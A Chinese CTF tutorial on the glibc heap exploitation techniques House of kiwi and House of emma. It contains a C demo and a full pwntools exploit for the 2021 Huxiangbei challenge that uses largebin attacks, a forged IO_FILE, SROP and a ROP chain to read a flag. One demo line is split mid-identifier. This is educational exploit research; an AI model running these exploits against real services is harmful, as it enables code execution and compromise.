




IO利用之House of kiwi & House of emma

- - -

# IO利用之House of kiwi & House of emma

# 1.House of kiwi

## 简介&背景

在glibc2.29之后的开启了sandbox的堆题中，利用思路有两种，一是劫持free\_hook，然后利用特定的gadget进行栈迁移，二是劫持malloc\_hook为setcontext+61并且劫持IO\_list\_all链表并调用exit函数后,在\_IO\_cleanup函数会进行缓冲区的刷新,从而读取flag。

但是如果程序中没有exit结束或者是通过syscall调用的exit，就没有机会调用\_IO\_cleanup，并且glibc2.34后取消了几个关键的hook，那么上述方法便难以进行了，此时我们就要利用House of kiwi了

## 利用原理

之前的两篇学习io利用文章都提到了触发IO流的三种方式 传送门：[House of pig 学习利用](https://xz.aliyun.com/t/12916) &[House of orange及其IO组合攻击学习利用](https://xz.aliyun.com/t/12902)

其中的通过main函数返回和调用exit函数都因为各种原因无法进行了，剩下的就是通过调用malloc\_assert刷新IO流了

## 源码分析

```plain
static void
__malloc_assert (const char *assertion, const char *file, unsigned int line,
       const char *function)
{
(void) __fxprintf (NULL, "%s%s%s:%u: %s%sAssertion `%s' failed.\n",
           __progname, __progname[0] ? ": " : "",
           file, line,
           function ? function : "", function ? ": " : "",
           assertion);
fflush (stderr);
abort ();
}
```

从源码中我们可以看到函数调用了fflush (stderr)，而这个函数调用后会调用`_IO_file_jumps`中的`sync`指针

#### malloc\_assert触发

在`_int_malloc`中存在一个 assert (chunk\_main\_arena (bck->bk));位置可以触发,或者当`top_chunk`的大小不够分配时,则会进入sysmalloc中

GLIBC 2.32的malloc\_assert

```plain
......
assert ((old_top == initial_top (av) && old_size == 0) ||
        ((unsigned long) (old_size) >= MINSIZE &&
         prev_inuse (old_top) &&
         ((unsigned long) old_end & (pagesize - 1)) == 0));
......
```

此处会对top\_chunk的`size|flags`进行assert判断

1.  old\_size >= 0x20;
2.  old\_top.prev\_inuse = 0;
3.  old\_top页对齐

通过这里也可以触发assert

进入assert后,可以发现fflush和fxprintf都和IO有关,经过调试可以发现在`fflush`函数中调用到了一个指针:位于`_IO_file_jumps`中的`_IO_file_sync`指针,并且发现RDX寄存器的值始终为`IO_helper_jumps`指针地址

## 利用条件

1、能够触发 \_\_malloc\_assert

2、能够任意地址写

## 利用思路

通过largebin attack等任意地址写的方法，将`_IO_file_jumps + 0x60`的`_IO_file_sync`指针为`setcontext+61`处的特殊gadget  
修改`IO_helper_jumps + 0xA0 and 0xA8`分别为可迁移的存放有ROP的位置和ret指令的gadget位置

关于特殊gadget和ROP原理参考文章： [CTF 中 glibc堆利用 及 IO\_FILE 总结](https://bbs.kanxue.com/thread-272098.htm#msg_header_h3_23)

## 示例

源码来自：[House OF Kiwi-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/235598#h3-1)

```plain
// Ubuntu 20.04, GLIBC 2.32_Ubuntu2.2
//gcc demo.c -o main -z noexecstack -fstack-protector-all -pie -z now -masm=intel
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#define pop_rdi_ret libc_base + 0x000000000002858F
#define pop_rdx_r12 libc_base + 0x0000000000114161
#define pop_rsi_ret libc_base + 0x000000000002AC3F
#define pop_rax_ret libc_base + 0x0000000000045580
#define syscall_ret libc_base + 0x00000000000611EA
#define ret pop_rdi_ret+1
size_t libc_base;
size_t ROP[0x30];
char FLAG[0x100] = "./flag\x00";
void sandbox()
{
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
    struct sock_filter sfi[] ={
        {0x20,0x00,0x00,0x00000004},
        {0x15,0x00,0x05,0xC000003E},
        {0x20,0x00,0x00,0x00000000},
        {0x35,0x00,0x01,0x40000000},
        {0x15,0x00,0x02,0xFFFFFFFF},
        {0x15,0x01,0x00,0x0000003B},
        {0x06,0x00,0x00,0x7FFF0000},
        {0x06,0x00,0x00,0x00000000}
    };
    struct sock_fprog sfp = {8, sfi};
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sfp);
}

void setROP()
{
    uint32_t i = 0;
    ROP[i++] = pop_rax_ret;
    ROP[i++] = 2;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = (size_t)FLAG;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = 0;
    ROP[i++] = syscall_ret;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 3;
    ROP[i++] = pop_rdx_r12;
    ROP[i++] = 0x100;
    ROP[i++] = 0;
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = (size_t)(FLAG + 0x10);
    ROP[i++] = (size_t)read;
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 1;
    ROP[i++] = (size_t)write;
}
int main() {
    setvbuf(stdin,0LL,2,0LL);
    setvbuf(stdout,0LL,2,0LL);
    setvbuf(stderr,0LL,2,0LL);
    sandbox();
    libc_base  = ((size_t)setvbuf) - 0x81630;
    printf("LIBC:\t%#lx\n",libc_base);

    size_t magic_gadget = libc_base + 0x53030 + 61; // setcontext + 61
    size_t IO_helper = libc_base + 0x1E48C0; // _IO_hel
    per_jumps;
    size_t SYNC = libc_base + 0x1E5520; // sync pointer in _IO_file_jumps
    setROP();
    *((size_t*)IO_helper + 0xA0/8) = ROP; // 设置rsp
    *((size_t*)IO_helper + 0xA8/8) = ret; // 设置rcx 即 程序setcontext运行完后会首先调用的指令地址
    *((size_t*)SYNC) = magic_gadget; // 设置fflush(stderr)中调用的指令地址
    // 触发assert断言,通过large bin chunk的size中flag位修改,或者top chunk的inuse写0等方法可以触发assert
    size_t *top_size = (size_t*)((char*)malloc(0x10) + 0x18);
    *top_size = (*top_size)&0xFFE; // top_chunk size改小并将inuse写0,当top chunk不足的时候,会进入sysmalloc中,其中有个判断top_chunk的size中inuse位是否存在
    malloc(0x1000); // 触发assert
    _exit(-1);
}
```

效果如图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028185931-126273d6-7581-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028185936-158340a4-7581-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028185944-1a6a850a-7581-1.png)

当malloc\_assert触发IO流操作时即可运行构造好的ROP链。

# 2.House of emma

## 简介

glibc2.34之后彻底把以前常用的几个钩子hook函数删掉了，而且一些高版本的堆题由于各种限制难以进行任意地址申请，所以要考虑能够在某一个可控地址利用\_IO\_FILE直接getshell，那么就需要找到一个能够替代free\_hook的函数指针来完成调用，House of emma就是这样一种新的调用链

## 利用原理及思想

House of emma的出现实际上一定程度上继承了House of kiwi，House of kiwi是通过修改触发malloc\_assert时一定能触发的\_IO\_file\_jumps中的sync函数指针为ROP调用链来getshell，而House of emma则是利用vtable虚表检测的宽松来对 vtable 表的起始位置进行修改，使其我们在调用具体偏移是固定的情况下，可以通过偏移来调用在 vtable 表中的任意函数

在House of emma中我们利用的是\_IO\_cookie\_jumps

源码如下：

```plain
/* Special file type for fopencookie function.  */
struct _IO_cookie_file
{
  struct _IO_FILE_plus __fp;
  void *__cookie;
  cookie_io_functions_t __io_functions;
};

typedef struct _IO_cookie_io_functions_t
{
  cookie_read_function_t *read;        /* Read bytes.  */
  cookie_write_function_t *write;    /* Write bytes.  */
  cookie_seek_function_t *seek;        /* Seek/tell file position.  */
  cookie_close_function_t *close;    /* Close file.  */
} cookie_io_functions_t;
```

```plain
static ssize_t
_IO_cookie_read (FILE *fp, void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_read_function_t *read_cb = cfile->__io_functions.read;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (read_cb);
#endif

  if (read_cb == NULL)
    return -1;

  return read_cb (cfile->__cookie, buf, size);
}

static ssize_t
_IO_cookie_write (FILE *fp, const void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_write_function_t *write_cb = cfile->__io_functions.write;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (write_cb);
#endif

  if (write_cb == NULL)
    {
      fp->_flags |= _IO_ERR_SEEN;
      return 0;
    }

  ssize_t n = write_cb (cfile->__cookie, buf, size);
  if (n < size)
    fp->_flags |= _IO_ERR_SEEN;

  return n;
}

static off64_t
_IO_cookie_seek (FILE *fp, off64_t offset, int dir)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_seek_function_t *seek_cb = cfile->__io_functions.seek;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (seek_cb);
#endif

  return ((seek_cb == NULL
       || (seek_cb (cfile->__cookie, &offset, dir)
           == -1)
       || offset == (off64_t) -1)
      ? _IO_pos_BAD : offset);
}

static int
_IO_cookie_close (FILE *fp)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_close_function_t *close_cb = cfile->__io_functions.close;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (close_cb);
#endif

  if (close_cb == NULL)
    return 0;

  return close_cb (cfile->__cookie);
}
```

分析源码我们可以看出\_IO\_cookie\_jumps中的函数存在调用 \_IO\_cookie\_file结构体中的函数指针，这个结构体是 \_IO\_FILE\_plus 的扩展，如果我们可以控制 IO 的内容，大概率这部分的数据也是可控的，并且其的第一个参数也是来源于这个结构。所以我们可以把其当做一个类似于 \_\_free\_hook 的 Hook 来利用。

但是系统对函数指针使用 `pointer_guard` 进行了加密：

```plain
extern uintptr_t __pointer_chk_guard attribute_relro;
#  define PTR_MANGLE(var) \
  (var) = (__typeof (var)) ((uintptr_t) (var) ^ __pointer_chk_guard)
#  define PTR_DEMANGLE(var) PTR_MANGLE (var)
```

这是对函数指针进行循环右移0x11然后再异或

**那么我们的利用思路就是**构造fake IO\_FILE在里面写入orw调用链或SROP等（参考House of kiwi的调用链构造）通过large bin attack等修改stderr的指针为已知堆地址，再修改TLS上的guard为已知值，触发IO流即可执行构造好的调用链。

## 例题：\[湖湘杯 2021\]house\_of\_emma

### ida

```plain
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  void *s; // [rsp+8h] [rbp-8h]

  sub_16D5(a1, a2, a3);
  while ( 1 )
  {
    puts("Pls input the opcode");
    s = malloc(0x2000uLL);
    memset(s, 0, 0x2000uLL);
    read(0, s, 0x500uLL);
    sub_1289(s);
    free(s);
  }
}
```

```plain
__int64 __fastcall sub_1289(__int64 a1)
{
  while ( 1 )
  {
    switch ( *a1 & 0xF )
    {
      case 1:
        sub_149C(a1);
        a1 += 4LL;
        puts("Malloc Done");
        break;
      case 2:
        sub_1536(a1);
        a1 += 2LL;
        puts("Del Done");
        break;
      case 3:
        sub_15A4(a1);
        a1 += 2LL;
        puts("Show Done");
        break;
      case 4:
        sub_1612(a1);
        a1 += *(a1 + 2) + 4LL;
        puts("Edit Done");
        break;
      case 5:
        return 0LL;
      case 6:
        *(a1 + 3) = *(a1 + 2) + *(a1 + 1);
        a1 += 5LL;
        break;
      case 7:
        *(a1 + 3) = *(a1 + 2) - *(a1 + 1);
        a1 += 5LL;
        break;
      case 8:
        *(a1 + 3) = (*(a1 + 1) ^ *(a1 + 2));
        a1 += 5LL;
        break;
      case 9:
        *(a1 + 3) = *(a1 + 2) * *(a1 + 1);
        a1 += 5LL;
        break;
      case 0x10:
        *(a1 + 3) = (*(a1 + 2) / *(a1 + 1));
        a1 += 5LL;
        break;
      default:
        puts("Invalid opcode");
        break;
    }
  }
}
```

```plain
_DWORD *__fastcall sub_149C(__int64 a1)
{
  _DWORD *result; // rax
  unsigned __int8 v2; // [rsp+1Dh] [rbp-13h]
  unsigned __int16 v3; // [rsp+1Eh] [rbp-12h]

  v2 = *(a1 + 1);
  v3 = *(a1 + 2);
  if ( v3 <= 0x40Fu || v3 > 0x500u || v2 > 0x10u )
  {
    puts("ERROR");
    _exit(0);
  }
  qword_4040[v2] = calloc(1uLL, v3);
  result = dword_40C0;
  dword_40C0[v2] = v3;
  return result;
}
```

```plain
void __fastcall sub_1536(__int64 a1)
{
  unsigned __int8 v1; // [rsp+1Fh] [rbp-1h]

  v1 = *(a1 + 1);
  if ( v1 > 0x10u || !qword_4040[v1] )
  {
    puts("Invalid idx");
    _exit(0);
  }
  free(qword_4040[v1]);
}
```

### 分析利用

申请的堆块在0x410到0x500之间，delete中有UAF漏洞

主函数的循环无法退出，也就是无法从主函数返回，所以我们要利用House of kiwi的思想来触发IO

具体思路如下

1.  使用 largeBin Attack 来在 stderr 指针处写一个可控地址
2.  使用 largeBin Attack 在\_\_pointer\_chk\_guard 处写一个已知地址
3.  通过写入的已知地址与需要调用的函数指针进行构造加密，同时构造出合理的 IO\_FILE 结构
4.  利用 Unsorted Bin 会与 Top Chunk 合并的机制来修改 Top Chunk 的 Size，触发malloc\_assert
5.  进入 House\_OF\_Emma 的调用链，同时寻找一个能够转移 rdi 到 rdx 的 gadget，利用这个 gadget 来为 Setcontext 提供内容
6.  利用 Setcontext 来执行 ROP 来 ORW

### 解题过程

```plain
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))
```

首先拿到libc基址和堆地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20231028190023-315ab050-7581-1.png)

然后进行largebin attack

```plain
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)
```

分别将stderr和guard改为堆地址

构造fake\_IO以及SROP链

```plain
next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)
```

最后改topchunk size构造House of kiwi触发malloc\_assert

```plain
# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()
add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
```

完整exp：

```plain
from pwn import *

context.log_level = "debug"
context.arch = "amd64"
# sh = process('./pwn')
sh = remote('127.0.0.1', 9999)
libc = ELF('./lib/libc.so.6')
all_payload = ""


def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)


def add(idx, size):
    global all_payload
    payload = p8(0x1)
    payload += p8(idx)
    payload += p16(size)
    all_payload += payload


def show(idx):
    global all_payload
    payload = p8(0x3)
    payload += p8(idx)
    all_payload += payload


def delete(idx):
    global all_payload
    payload = p8(0x2)
    payload += p8(idx)
    all_payload += payload


def edit(idx, buf):
    global all_payload
    payload = p8(0x4)
    payload += p8(idx)
    payload += p16(len(buf))
    payload += str(buf)
    all_payload += payload


def run_opcode():
    global all_payload
    all_payload += p8(5)
    sh.sendafter("Pls input the opcode", all_payload)
    all_payload = ""


# leak libc_base
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base

guard = libc_base + 0x2035f0
pop_rdi_addr = libc_base + 0x2daa2
pop_rsi_addr = libc_base + 0x37c0a
pop_rax_addr = libc_base + 0x446c0
syscall_addr = libc_base + 0x883b6
gadget_addr = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + 0x50bc0

# leak heapbase
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))

# largebin attack stderr
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
add(5, 0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run_opcode()

# largebin attack guard
delete(2)
add(6, 0x430)
delete(0)
edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(guard - 0x20))
add(7, 0x450)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(2, 0x420)
add(0, 0x410)

# change top chunk size
delete(7)
add(8, 0x430)
edit(7, 'a' * 0x438 + p64(0x300))
run_opcode()

next_chain = 0
srop_addr = heap_base + 0x2ae0 + 0x10
fake_IO_FILE = 2 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x78, '\x00')
fake_IO_FILE += p64(heap_base)  # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xB0, '\x00')
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xC8, '\x00')
fake_IO_FILE += p64(libc.sym['_IO_cookie_jumps'] + 0x40)  # vtable
fake_IO_FILE += p64(srop_addr)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (heap_base + 0x22a0), 0x11))

fake_frame_addr = srop_addr
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

rop_data = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,

    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop_data)

edit(0, fake_IO_FILE)
edit(2, payload)

add(8, 0x450)  # House OF Kiwi
# gdb.attach(sh, "b _IO_cookie_write")
run_opcode()
sh.interactive()
```

参考文章：[第七届“湖湘杯” House \_OF \_Emma | 设计思路与解析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/260614#h3-10)

# 总结

House of kiwi和House of emma都是较高版本的堆IO利用方法，这两种利用思路一脉相承，利用malloc\_assert达成了强大的攻击效果，同时在取消了hook后的glibc2.34仍有不错的发挥空间，是精妙且优秀的IO攻击方法。
